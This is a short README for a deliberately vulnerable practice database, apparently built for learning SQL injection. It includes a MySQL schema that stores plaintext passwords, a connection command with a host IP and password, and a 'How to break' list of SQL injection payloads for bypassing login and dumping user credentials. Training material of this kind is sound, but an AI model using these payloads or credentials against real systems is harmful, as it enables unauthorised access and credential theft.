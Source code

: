 # BackDoorCode

Very stupid code only for data protection practise

# DB:

DROP DATABASE IF EXISTS test;

CREATE DATABASE test;

CREATE TABLE users (
   id INTEGER AUTO_INCREMENT,
   login varchar(255),
   pass varchar(255),
   data varchar(255),
   PRIMARY KEY(id)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

INSERT INTO users VALUES(NULL,'login','pass','goto A');

to connect:
mysql -u user -h 46.37.146.33 -P 7306 -pqwerty123


# How to break:

    1) access to data:
        login: login' OR 1=1; #
        password: any
    2) access to users table:
        login: ' union select login from users order by 1 DESC; #
        or
        ' union select pass from users order by 1 DESC; #
        password: any
